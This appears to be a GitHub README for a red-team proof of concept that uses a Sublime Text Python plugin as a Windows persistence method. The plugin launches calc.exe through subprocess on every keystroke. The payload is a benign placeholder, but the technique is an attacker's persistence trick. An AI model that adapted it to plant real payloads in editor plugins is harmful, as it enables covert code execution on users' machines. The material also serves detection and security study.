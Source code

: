 # Sublime-persistence
Windows persistence method that abuses sublime packages.

Sublime text allows the ability to create custom plugins written in python. 
An API reference is posted below.
https://www.sublimetext.com/docs/api_reference.html



```import sublime
import sublime_plugin
import subprocess


class OpenCalcOnModified(sublime_plugin.EventListener):
    def on_modified(self, view):
        subprocess.Popen('calc.exe', shell=True)```

In the above python script we define a class called 'OpenCalcOnModified' which invokes the on_modified function. 
When a keystroke is detected within the sublime text editor, the .POpen() method in the subproccess module executes calc.exe.  

![image](https://github.com/rootd4ddy/Sublime-persistence/assets/129632649/993016ec-0b9a-418a-92b9-60de66f32308)


